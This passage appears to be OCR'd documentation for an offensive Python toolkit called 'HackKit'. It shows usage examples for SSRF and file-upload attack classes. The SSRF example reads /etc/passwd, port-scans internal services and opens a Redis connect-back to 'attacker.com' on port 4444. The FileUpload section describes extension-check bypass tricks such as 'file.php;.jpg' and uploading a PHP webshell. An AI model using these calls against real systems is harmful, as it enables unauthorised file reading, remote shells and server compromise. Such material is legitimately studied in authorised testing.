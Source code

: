 ##### Example: SSRF Master Example

```python
from HackKit import SSRF

ssrf = SSRF()
reqfile = "req.txt"  # Burp-formatted request file
param = "url"
# 1) Basic readfiles
ssrf.module_readfiles(reqfile, param, rfiles="/etc/passwd")
# 2) Port scan internal service
ssrf.module_portscan(reqfile, param)
# 3) Redis connect-back
ssrf.module_redis(reqfile, param, lhost="attacker.com", lport=4444, handler=4444)
# 4) Custom data send
ssrf.module_custom(reqfile, param, data="HELLO", target_port=1234)
```

---

### 29 `FileUpload`

**Platforms:** Cross-platform
**Dependencies:** `requests`, system `curl` on Linux

#### Methods

| Method                                                                                | Signature                                                        | Description                             |
| ------------------------------------------------------------------------------------- | ---------------------------------------------------------------- | --------------------------------------- |
| `__init__(upload_url: str, param: str='file')`                                        | `def __init__(self, upload_url: str, param: str='file') -> None` | Sets target URL & param; installs deps. |
| `automatic_dependency_checking()`                                                     | Installs `requests`; installs `curl` on Linux if missing.        |                                         |
| `detect_endpoint() -> bool`                                                           | `def detect_endpoint(self) -> bool`                              | Checks OPTIONS status code (200/204).   |
| `bypass_extension_check(file_path: str, trick: str='file.php;.jpg') -> Optional[str]` | Attempt rename trick; return server response if successful.      |                                         |
| `upload_webshell(shell_path: str) -> Optional[str]`                                   | Upload PHP webshell; return URL if found.                        |                                         |

##### Example: FileUpload Master Example

```python
from HackKit import FileUpload

fu = FileUpload(upload_url="http://site/upload")
# 1) Detect endpoint
print(fu.detect_endpoint())
# 2) Bypass ext
resp = fu.bypass_extension_check("shell.php", trick=";.php.jpg")
print(resp)
# 3) Upload webshell
url = fu.upload_webshell("shell.php")
print("Webshell URL:", url)
```

---